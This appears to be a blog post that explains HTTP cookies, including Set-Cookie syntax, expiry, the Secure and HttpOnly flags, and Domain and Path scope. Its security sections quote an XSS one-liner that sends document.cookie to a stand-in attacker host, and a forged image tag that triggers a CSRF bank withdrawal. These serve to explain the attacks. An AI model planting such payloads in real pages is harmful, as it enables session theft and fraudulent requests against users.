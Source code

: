 ```yaml
---
layout : post
title : Http Cookie
comments: true
categories : Other
---
```


  An HTTP cookie is a small piece of data that a server sends to the user's web browser. 
  
  The browser stores it(if it is enabled) and send it back to the same server in subsequent each request
  inside a Cookie HTTP header, even including requests for assets like images or CSS / JavaScript files.

### Purpose

  1. Session management
  2. Personalization
  3. Tracking
  
### Restrictions of Cookie

  - Cookies can only store 4KB of data
  - Cookies are private to the domain. A site can only read the cookies it set, not other domains cookies
  - You can have up to 20 limits of cookies per domain (but the exact number depends on the specific browser implementation)
  - Cookies are limited in their total number (but the exact number depends on the specific browser implementation). 
    If this number is exceeded, new cookies replace the older ones.
  
### Storage

  It is recommended nowadays to prefer modern storage APIs to improve performance. 
  
  Modern APIs for client storage are the [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) (`localStorage` and `sessionStorage`) 
  and [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API).
  
### Creating cookies

  When receiving an HTTP request, a server can send a `Set-Cookie` header with the response. A simple cookie is set like this:
  
  > Set-Cookie: \<cookie-name\>=\<cookie-value\>
  
  This header from the server tells the client to store a cookie.
  
  After that, the browser will send back all previously stored cookies to the server using the `Cookie` header.
  
#### Valid Cookie Value

  Cookie value should not contain any whitespace, comma or semicolon.
  
### Delete cookie

  To delete a cookie, unset its value and pass a date in the past.
  
### Session cookies

  Session cookie will be deleted when the browser is closed, because it didn't specify an `Expires` or `Max-Age` directive.
  
### Permanent cookies

  Permanent cookies expire at a specific date (`Expires`) or after a specific length of time (`Max-Age`).
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
  
  Note: When an expiry date is set, the time and date set is relative to the client the cookie is being set on, not the server.
  
### Secure and HttpOnly cookies

  A `secure` cookie is only sent to the server over the `HTTPS` protocol. 
  
  **Note: This flag doesn't make sure the cookies will be sent secure.** 
  
  To prevent cross-site scripting (XSS) attacks, `HttpOnly` cookies are inaccessible to JavaScript's `Document.cookie` API,
  that is if the `HttpOnly` flag is not set, existing cookies can be accessed from JavaScript like `console.log(document.cookie);`.
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
  
### Scope of cookies

  The `Domain` and `Path` directives define the scope of the cookie: what URLs the cookies should be sent to.
  
#### Domain

  The domain can be used to specify a subdomain for your cookie.
  
  If unspecified, it defaults to the host of the current document location, **excluding subdomains**. 
  If it is specified, then subdomains are always included.

  For example, if `Domain=mozilla.org` is set, then cookies are included on subdomains like `developer.mozilla.org`.
  
#### Path

  The `path` parameter specifies a document location for the cookie, so it’s assigned to a specific path, 
  and sent to the server only if the path matches the current document location, or a parent:
  
  For example, if `path=/docs` is set, this cookie is sent on `/docs`, `/docs/Web/` and other sub-urls of `/docs`.

  If you don’t set a path, it defaults to the current document location. 
  This means that to apply a global cookie from an inner page, you need to specify `path="/"`.
  
### Security

  Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.
  
  > (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  
### Cross-site request forgery (CSRF)

  Someone includes an image that isn’t really an image (for example in an unfiltered chat or forum), 
  instead it really is a request to your bank’s server to withdraw money:
  
  > \<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
  
### Third-party cookies

  Cookies have a domain associated to them. If this domain is the same as the domain of the page you are on, 
  the cookies is said to be a **first-party cookie**. If the domain is different, it is said to be a **third-party cookie**. 
  
  While `first-party` cookies are sent only to the server setting them, 
  a web page may contain images or other components stored on servers in other domains (like ad banners).
  
### Do-Not-Track

  The `DNT` header can be used to signal that a web application should disable either its tracking or 
  cross-site user tracking of an individual user. 
  
### Alternatives to cookie

  **JSON Web Tokens (JWT)**, which is a **Token-based Authentication**.
  
### References

[mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

[humanwhocodes](https://humanwhocodes.com/blog/2009/05/05/http-cookies-explained/)

[flaviocopes](https://flaviocopes.com/cookies/)

[a-few-speed-improvements](https://stackoverflow.blog/2009/08/09/a-few-speed-improvements/)

[how-do-browsers-know-which-cookie-to-get](https://security.stackexchange.com/questions/33348/how-do-browsers-know-which-cookie-to-get)

[cookie-attributes-and-their-importance](https://www.paladion.net/blogs/cookie-attributes-and-their-importance)
